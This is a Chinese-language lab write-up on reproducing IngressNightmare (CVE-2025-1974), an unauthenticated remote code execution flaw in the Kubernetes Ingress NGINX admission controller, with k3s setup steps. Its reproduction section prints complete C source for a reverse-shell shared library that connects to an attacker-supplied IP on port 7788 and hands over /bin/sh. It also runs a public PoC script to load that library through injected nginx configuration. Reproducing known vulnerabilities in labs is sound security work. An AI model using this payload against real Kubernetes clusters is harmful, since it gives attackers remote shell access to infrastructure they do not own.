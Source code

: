 # IngressNightmare：Kubernetes Ingress 未经身份验证的远程代码执行漏洞（CVE-2025-1974）



Ingress-Nightmare 漏洞的核心问题在于 Ingress Nginx Controller 的准入控制器（Admission Controller）存在缺陷。准入控制器是 Kubernetes 的内部安全机制，用于在部署传入的入口对象之前对其进行验证。然而，该控制器无需身份验证即可通过网络访问，攻击者可以利用这一特性，向准入控制器发送恶意的 `AdmissionReview` 请求

需要特别说明的是， 如果要造成任意命令执行需要配合其他漏洞组合，例如下面的几个组合方式：

CVE-2025-1974 + CVE-2025-24514 通过 auth-url 注释注入RCE 
CVE-2025-1974 + CVE-2025-1097  通过 auth-tls-match-cn 注释注入RCE 
CVE-2025-1974 + CVE-2025-1098   通过镜像 UID 注入RCE

## 漏洞原理

攻击者通过构造恶意的 `AdmissionReview` 请求，可以注入任意的 Nginx 配置指令。这些指令会在配置验证阶段被 `nginx -t` 命令触发执行[^1]。例如，攻击者可以注入 `ssl_engine` 指令，该指令会加载指定的动态链接库。

更多细节参考：

* IngressNightmare: CVE-2025-1974 - 9.8 Critical Unauthenticated Remote Code Execution Vulnerabilities in Ingress NGINX[^2]
* Ingress-nginx CVE-2025-1974: What You Need to Know[^3]

## 漏洞环境

启动 k8s 环境， 这里我方便使用 k3s 进行替代：

```bash
docker compose up -d
```

等待一段时间后环境启动成功， 使用 `docker exec` 子命令进入到容器内部执行 `./exploit/init.sh`

```sh
$ docker ps -a  |grep k3s
b26496088394   rancher/k3s:v1.29.1-k3s1   "/bin/k3s server"        3 minutes ago   Up 3 minutes                0.0.0.0:80->80/tcp, :::80->80/tcp, 0.0.0.0:443->443/tcp, :::443->443/tcp   cve-2025-1974-k3s-1

# swing @ sw in ~/Desktop/vulhub/ingress-nginx/CVE-2025-1974 on git:master x [16:49:44]
$ docker exec -it cve-2025-1974-k3s-1 sh
/ # sh ./exploit/init.sh
...
root@exploit-pod:/# 
```

当成功初始化后，会进入到一个名为exploit-pod的容器里。

## 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。动态链接库源码：

```C
  #include <unistd.h>

  #include<stdio.h>
  #include<stdlib.h>
  #include<unistd.h>
  #include<sys/socket.h>
  #include<netinet/in.h>
  #include<arpa/inet.h>


  __attribute__((constructor)) static void reverse_shell(void)
  {
      char *server_ip="xxxx";
      uint32_t server_port=7788;
      int sock = socket(AF_INET, SOCK_STREAM, 0);
      struct sockaddr_in attacker_addr = {0};
      attacker_addr.sin_family = AF_INET;
      attacker_addr.sin_port = htons(server_port);
      attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
      system("touch /tmp/hacked");
      if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
          exit(0);
      dup2(sock, 0);
      dup2(sock, 1);
      dup2(sock, 2);
      char *args[] = {"/bin/sh", NULL};
      execve("/bin/sh", args, NULL);
  }
```
修改 server_ip 为你的服务器 IP ，或者进一步修改该源代码， 可以参考 [yoshino-s/CVE-2025-1974](https://github.com/yoshino-s/CVE-2025-1974/tree/main) [^4]这个 Github 仓库，或者直接使用他的环境进行编译。将编译后的 shell.so 拷贝到 ./exploit 目录下。

然后，我们在 exploit-pod 里，切到 exploit 目录， 执行利用代码。该利用代码来自于 [IngressNightmare-PoC](https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main)Github仓库[^5]。
```
cd /exploit
python3 exploit.py
```
可见， 我们成功在 ingress-nginx 的 pod 的 /tmp/ 目录成功创建了 hacked 文件

![](1.jpg)

## 参考链接
[^1]: https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425
[^2]: https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities
[^3]: https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/
[^4]: https://github.com/yoshino-s/CVE-2025-1974/tree/main
[^5]: https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main